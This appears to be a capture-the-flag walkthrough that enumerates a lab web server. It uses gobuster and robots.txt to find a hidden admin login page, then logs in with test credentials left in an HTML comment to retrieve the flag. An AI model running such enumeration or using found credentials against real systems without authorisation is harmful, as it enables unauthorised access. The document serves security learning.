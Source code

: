 #Step 1


Ping target ip
```
	bash
ping <target ip>

Ping sucessfull

#Step 2

Find other directories on the backend

```
	bash 
gobuster dir -u http://83.136.252.57:54764/ -w /usr/share/dirb/wordlists/common.txt

This command calls gobuster with the dir switch and passes the target system with the ip and port number along with a word list that commons preinstalled on kali 
Below is the output of the command.

Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 281]
/.htpasswd            (Status: 403) [Size: 281]
/.htaccess            (Status: 403) [Size: 281]
/index.php            (Status: 200) [Size: 990]
/robots.txt           (Status: 200) [Size: 45]
/server-status        (Status: 403) [Size: 281]
/wordpress            (Status: 301) [Size: 327] [--> http://83.136.252.57:54764/wordpress/]
Progress: 4614 / 4615 (99.98%)


We can see from the http codes that only index.php and robots.txt are directoryly avaible on this server. /wordpress is also availabe but 301 indicates that the location has been moved and my request will be redirected.


#Step 3

Get robots.txt 

	──(davidingraham㉿kaliVm)-[~]
└─$ curl http://83.136.252.57:54764/robots.txt
User-agent: *
Disallow: /admin-login-page.php

#Step 4

Visit the http://83.136.252.57:54764/admin-login-page.php
Inspect the page source to reveal the follwing html

<div class="container">
                <label for="username"><b>Username</b></label>
                <input name="username" placeholder="Username" type="text">

                <label for="password"><b>Password</b></label>
                <input name="password" placeholder="Password" type="password">

                <!-- TODO: remove test credentials admin:password123 -->

                <button type="submit" formmethod="post">Login</button>
            </div>



We see a comment the developer left with the login credentials to the page. We use these credentials to login and visit a page that reveals the flag.                                                                                        

